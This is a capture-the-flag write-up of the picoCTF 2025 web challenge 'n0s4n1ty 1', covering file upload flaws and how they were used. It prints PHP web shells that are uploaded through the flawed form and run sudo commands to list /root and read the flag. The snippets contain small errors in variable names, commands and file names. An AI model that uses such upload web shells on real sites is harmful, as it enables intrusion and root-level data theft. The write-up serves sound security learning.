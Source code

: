 # Challenge: n0s4n1ty 1

## Details:

- Source: picoCTF 2025
- Category: Web Explotation
- Difficulty: Easy
- Date completed: 12.07.2025
- A website was provided


## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


## Hints

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


## Tools

- A simple PHP web shell


## Steps taken

1. As hints suggested, there was no input sanitation in the website. Users can upload any kind of files instead of image files.

2. I did some research and wrote a php file to get a web shell in order to execute commands. My first try was to run `sudo -l` as the hint suggested.

    ```bash
    <?php 
    $command = 'sudo -l';
    $ouput = exec($command);
    echo "$output";
    ?>
    ```

3. I encountered this after uploading, suggesting the directory where my files are uploaded can be accessed publicly.

    ![Uploaded](./Images/03-uploaded.png)

4. I navigated to the /uploads/filename.

    ![See result](./Images/03-see_uploaded)

This output showed that I can run any command with sudo without password.

5. My next attempt was to see the files and directories `/root` contained, as the description mentioned the flag was somewhere there. This was my next php file.

    ```bash
    <?php
    $command = 'sudo -ls /root';
    $output = exec($command);
    echo "$output";
    ?>
    ```

6. I discovered the only file in root directory was `flag.txt`, therefore my next and final step was to read its contents and submit the flag, for whic I modified my `exploit.php` file to this.

    ```bash
    <?php
    $command = 'sudo cat /root/file.txt';
    $output = exec($command);
    echo "$output";
    ?>
    ```


## What I learned

1. File upload vulnerabilities occur when an application allows a user to upload a file without properly validating the file’s type, name, size, or content.

2. These vulnerabilities can lead to Remote Code Execution (RCE), directory traversal, or webshell access if exploited.

3. These vulnerabilities can be exploited using Burpsuite as well, by changing headers. 


## Useful references

1. [File upload vulnerabilities learning path]("https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities")

2. [Web Shells 101]("https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/")

